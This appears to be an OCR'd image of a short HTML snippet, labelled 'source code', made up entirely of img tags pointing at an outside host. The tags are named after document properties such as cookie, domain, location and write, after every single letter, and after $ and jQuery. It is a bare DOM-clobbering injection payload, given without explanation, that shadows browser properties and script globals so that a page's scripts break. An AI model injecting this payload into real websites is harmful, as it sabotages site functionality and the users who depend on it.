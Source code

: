 <img src="http://suck.it" name="cookie" />
<img src="http://suck.it" name="domain" />
<img src="http://suck.it" name="location" />
<img src="http://suck.it" name="body" />
<img src="http://suck.it" name="write" />
<img src="http://suck.it" name="title" />
<img src="http://suck.it" name="referrer" />
<img src="http://suck.it" name="open" />
<img src="http://suck.it" name="forms" />
<img src="http://suck.it" name="URL" />
<img src="http://suck.it" name="document" />
<img src="http://suck.it" name="history" />
<img src="http://suck.it" name="a"/><img src="http://suck.it" name="b"/><img src="http://suck.it" name="c"/><img src="http://suck.it" name="d"/><img src="http://suck.it" name="e"/><img src="http://suck.it" name="f"/><img src="http://suck.it" name="g"/><img src="http://suck.it" name="h"/><img src="http://suck.it" name="i"/><img src="http://suck.it" name="j"/><img src="http://suck.it" name="k"/><img src="http://suck.it" name="l"/><img src="http://suck.it" name="m"/><img src="http://suck.it" name="n"/><img src="http://suck.it" name="o"/><img src="http://suck.it" name="p"/><img src="http://suck.it" name="q"/><img src="http://suck.it" name="r"/><img src="http://suck.it" name="s"/><img src="http://suck.it" name="t"/><img src="http://suck.it" name="u"/><img src="http://suck.it" name="v"/><img src="http://suck.it" name="w"/><img src="http://suck.it" name="x"/><img src="http://suck.it" name="y"/><img src="http://suck.it" name="z"/>
<img src="http://suck.it" name="$"/>
<img src="http://suck.it" name="jQuery"/>
<img src="http://suck.it" name="et"/>
<img src="http://suck.it" name="A"/><img src="http://suck.it" name="B"/><img src="http://suck.it" name="C"/><img src="http://suck.it" name="D"/><img src="http://suck.it" name="E"/><img src="http://suck.it" name="F"/><img src="http://suck.it" name="G"/><img src="http://suck.it" name="H"/><img src="http://suck.it" name="I"/><img src="http://suck.it" name="J"/><img src="http://suck.it" name="K"/><img src="http://suck.it" name="L"/><img src="http://suck.it" name="M"/><img src="http://suck.it" name="N"/><img src="http://suck.it" name="O"/><img src="http://suck.it" name="P"/><img src="http://suck.it" name="Q"/><img src="http://suck.it" name="R"/><img src="http://suck.it" name="S"/><img src="http://suck.it" name="T"/><img src="http://suck.it" name="U"/><img src="http://suck.it" name="V"/><img src="http://suck.it" name="W"/><img src="http://suck.it" name="X"/><img src="http://suck.it" name="Y"/><img src="http://suck.it" name="Z"/>
